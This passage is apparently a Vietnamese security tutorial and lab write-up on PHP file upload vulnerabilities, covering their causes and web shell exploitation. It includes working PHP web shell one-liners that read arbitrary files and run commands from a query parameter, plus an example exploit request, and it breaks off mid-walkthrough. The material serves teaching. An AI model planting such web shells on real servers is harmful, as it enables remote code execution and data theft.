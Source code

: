# Lỗ Hổng Tải Tệp Lên Là Gì ?
- **Lỗ hổng PHP Upload File (PHP File Upload Vulnerability)** là một vấn đề bảo mật nghiêm trọng trong các ứng dụng web.
- Lỗ hổng tải tệp lên là khi máy chủ web cho phép người dùng tải tệp lên hệ thống tệp của mình mà không xác thực đầy đủ các thông tin như tên, loại, nội dung hoặc kích thước,... Không thực thi đúng các hạn chế này có thể có nghĩa là ngay cả một chức năng tải hình ảnh cơ bản cũng có thể được sử dụng để tải lên các tệp tùy ý và có khả năng gây nguy hiểm.
- Điều này thậm chí có thể bao gồm các tệp tập lệnh phía máy chủ cho phép thực thi mã từ xa.
## Nguyễn nhân gây ra lổ hổng 
- **Thiếu kiểm tra loại tệp**: Ứng dụng không kiểm tra phần mở rộng hoặc loại MIME của tệp.
- **Không xác thực nội dung tệp**: Nội dung tệp tải lên có thể chứa mã độc mà không bị phát hiện.
- **Xử lý sai đường dẫn lưu trữ**: Các tệp được lưu ở vị trí không an toàn hoặc cho phép truy cập công khai.
- **Thiếu cơ chế kiểm soát quyền hạn**: Người dùng có thể tải lên tệp và thực thi mã mà không có bất kỳ hạn chế nào.
- **Lỗ hổng kiểm tra logic**: Logic xác thực hoặc lọc tệp không đủ mạnh, dễ bị bypass.
## Các cách khai thác lổ hổng tải tệp lên
### Web shell
- Web shell là một tập lệnh độc hại cho phép kẻ tấn công thực thi các lệnh tùy ý trên máy chủ web từ xa chỉ bằng cách gửi yêu cầu HTTP đến đúng điểm cuối.
- Nếu bạn có thể tải lên thành công một web shell, về cơ bản bạn có toàn quyền kiểm soát máy chủ. Điều này có nghĩa là bạn có thể đọc và ghi các tệp tùy ý, trích xuất dữ liệu nhạy cảm, thậm chí sử dụng máy chủ để tấn công trục vào cả cơ sở hạ tầng nội bộ và các máy chủ khác bên ngoài mạng.
- Ví dụ, có thể sử dụng dòng lệnh PHP sau để đọc các tệp tùy ý từ hệ thống tệp của máy chủ:
```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```
Một web shell linh hoạt hơn có thể trông giống như thế này:
```php
<?php echo system($_GET['command']); ?>
```
- Tập lệnh này cho phép bạn truyền lệnh hệ thống tùy ý thông qua tham số truy vấn như sau:
```php
GET /example/exploit.php?command=id HTTP/1.1
```
#### Phòng thí nghiệm: Thực thi mã từ xa thông qua tải lên web shell
##### Mô tả :
- Phòng thí nghiệm này chứa một chức năng tải lên hình ảnh dễ bị tấn công. Nó không thực hiện bất kỳ xác thực nào đối với các tệp mà người dùng tải lên trước khi lưu trữ chúng trên hệ thống tệp của máy chủ.
- Để giải quyết bài lab, hãy tải lên một web shell PHP cơ bản và sử dụng nó để trích xuất nội dung của tệp /home/carlos/secret. Gửi bí mật này bằng nút được cung cấp trong biểu ngữ bài lab.
##### Cách giải :
- Ban đầu ta sẽ upload 1 file.php với nội dung
```php
<?php system('ls / -la'); ?>
```
- Khi web thực thi code của file ta sẽ nhận được raw tương ứng
